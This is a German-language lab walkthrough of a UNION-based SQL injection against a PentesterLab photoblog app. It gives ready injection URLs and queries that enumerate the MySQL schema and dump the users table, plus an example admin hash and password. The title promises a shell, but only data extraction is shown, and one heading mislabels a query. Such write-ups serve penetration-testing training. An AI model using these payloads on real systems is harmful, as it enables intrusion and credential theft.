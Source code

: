 # SQL Injection to Shell – Exploitation Walkthrough

Dieses Dokument beschreibt einen vollständigen SQL-Injection-Angriff mit dem Ziel, Informationen aus der Datenbank zu extrahieren und Zugangsdaten zu erlangen. Die genutzte Zielanwendung basiert auf einer MySQL-Datenbank.

## 📌 Kontext

- **MySQL-Version:** 5.1.63-0+squeeze1  
- **Datenbank:** photoblog  
- **Benutzer:** pentesterlab@localhost  
- **Datenverzeichnis:** /var/lib/mysql/  

Ziel der folgenden Schritte ist es, über SQL Injection Zugriff auf sensible Daten zu erlangen, die zur weiteren Kompromittierung des Systems verwendet werden können.

---

## 🔍 Erste Tests

### Basistest
`http:`
```http://192.168.1.142/cat.php?id=2 UNION SELECT 1,2,3,4 --+```

### Version Anzeigen
`http:`
```http://192.168.1.142/cat.php?id=2 UNION SELECT 1,version(),3,4 --+```

### Aktive Datenbank anzeigen
`http`
```http://192.168.1.142/cat.php?id=2 UNION SELECT 1,database(),3,4 --+```

### Benutzer anlegen
`http`
```http://192.168.1.142/cat.php?id=2 UNION SELECT 1,user(),3,4 --+```

--- 

## 📂 Datenbankaufbau erkunden

### Datenbanken auflisten

`sql`
```UNION SELECT 1,group_concat(schema_name),3,4 FROM information_schema.schemata```

**Ergebnis Beispiel:**
- information_schema
- photoblog

**Ziel-Datenbank: Beispiel:**
- photoblog

### Tabellen in der photoblog-Datenbank

`sql`
```UNION SELECT 1,group_concat(table_name),3,4 FROM information_schema.tables WHERE table_schema=database()```

**Ergebnis Beispiel:**
- categories
- pictures
- users

### Spalten der Tabelle `users`

`sql`
```UNION SELECT 1,group_concat(column_name),3,4 FROM information_schema.columns WHERE table_name=0x7573657273```

***HINWEIS:*** 
0x7573657273 ist Hexadezimal aus dem Wort users

**Ergebnis Beispiel:**
- id
- login
- password

---

## 🔓 Benutzeranmeldeinformationen extrahieren

`http`
```http://192.168.1.142/cat.php?id=2 UNION SELECT 1,group_concat(id,0x3a3a,login,0x3a3a,password),3,4 FROM users```

**Ergebnis (entschlüsselt):** **Beispiel**
`cpp`
```1::admin::8efe310f9ab3efeae8d410a8e0166eb2```

**Anmeldeinformationen:** **Beispiel**
-Benutzername: admin
-Passwort-Hash (MD5): 8efe310f9ab3efeae8d410a8e0166eb2
- Klartext-Passwort: P4ssw0rd

---

**Hinweis:** Diese Datei ist rein für Schulungszwecke und Laborszenarien gedacht.
Siehe auch den [⚠️ Disclaimer in der README](/README.md#️-disclaimer).
